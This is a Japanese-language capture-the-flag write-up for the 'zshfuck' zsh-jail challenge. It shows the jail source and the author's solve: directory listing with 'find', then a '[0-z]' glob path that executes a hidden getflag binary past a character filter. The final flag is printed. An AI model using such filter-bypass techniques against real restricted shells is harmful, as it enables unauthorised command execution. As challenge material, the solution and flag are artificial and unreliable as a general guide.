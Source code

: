 # zshfuck:misc:127pts
may your code be under par. execute the `getflag` binary somewhere in the filesystem to win  
`nc mc.ax 31774`  

[jail.zsh](jail.zsh)  

# Solution
接続先とソースが渡される。  
ソースは以下のようであった。  
```zsh
#!/bin/zsh
print -n -P "%F{green}Specify your charset: %f"
read -r charset
# get uniq characters in charset
charset=("${(us..)charset}")
banned=('*' '?' '`')

if [[ ${#charset} -gt 6 || ${#charset:|banned} -ne ${#charset} ]]; then
    print -P "\n%F{red}That's too easy. Sorry.%f\n"
    exit 1
fi
print -P "\n%F{green}OK! Got $charset.%f"
charset+=($'\n')

# start jail via coproc
coproc zsh -s
exec 3>&p 4<&p

# read chars from fd 4 (jail stdout), print to stdout
while IFS= read -u4 -r -k1 char; do
    print -u1 -n -- "$char"
done &
# read chars from stdin, send to jail stdin if valid
while IFS= read -u0 -r -k1 char; do
    if [[ ! ${#char:|charset} -eq 0 ]]; then
        print -P "\n%F{red}Nope.%f\n"
        exit 1
    fi
    # send to fd 3 (jail stdin)
    print -u3 -n -- "$char"
done
```
初めに`*`、`?`、`` ` ``を除く6種類以下の文字を入力し、それらの文字種だけで構成されたスクリプトを入力するとzshで実行してくれる。  
フラグはどこかにある`getflag`を実行する必要があるようだ。  
まずは`getflag`の場所だが、チームメンバが`find .`でディレクトリが表示されることを発見していた。  
```bash
$ nc mc.ax 31774
Specify your charset: find .

OK! Got f i n d   ..
find .
.
./y0u
./y0u/w1ll
./y0u/w1ll/n3v3r_g3t
./y0u/w1ll/n3v3r_g3t/th1s
./y0u/w1ll/n3v3r_g3t/th1s/getflag
./run
~~~
$ nc mc.ax 31774
Specify your charset: find .

OK! Got f i n d   ..
find ..
..
../app
../app/y0u
../app/y0u/w1ll
../app/y0u/w1ll/n3v3r_g3t
../app/y0u/w1ll/n3v3r_g3t/th1s
../app/y0u/w1ll/n3v3r_g3t/th1s/getflag
../app/run
../boot
../tmp
../libx32
../lib32
../etc
~~~
```
`find ..`で一つ上がルートディレクトリであり、`/app/y0u/w1ll/n3v3r_g3t/th1s/getflag`を実行すればよいことがわかる。  
文字種を削減するため`/a**/***/****/*********/****/g******`のようにワイルドカードを利用したいが、禁止されている。  
ここでzshのワイルドカードを調べると`[a-z]`のようにアルファベット小文字を指定できることがわかる。  
`[a-z]`と`/`で文字は6種類だが、パスに数字や記号がある場合にマッチしない。  
試行錯誤すると`[0-z]`で記号や数字にもマッチすることがわかる。  
以下のように文字種を入力し、`getflag`を実行する。  
```bash
$ nc mc.ax 31774
Specify your charset: [0-z]/

OK! Got [ 0 - z ] /.
/[0-z][0-z][0-z]/[0-z][0-z][0-z]/[0-z][0-z][0-z][0-z]/[0-z][0-z][0-z][0-z][0-z][0-z][0-z][0-z][0-z]/[0-z][0-z][0-z][0-z]/[0-z][0-z][0-z][0-z][0-z][0-z][0-z]
dice{d0nt_u_jU5T_l00oo0ve_c0d3_g0lf?}
```
flagが得られた。  

## dice{d0nt_u_jU5T_l00oo0ve_c0d3_g0lf?}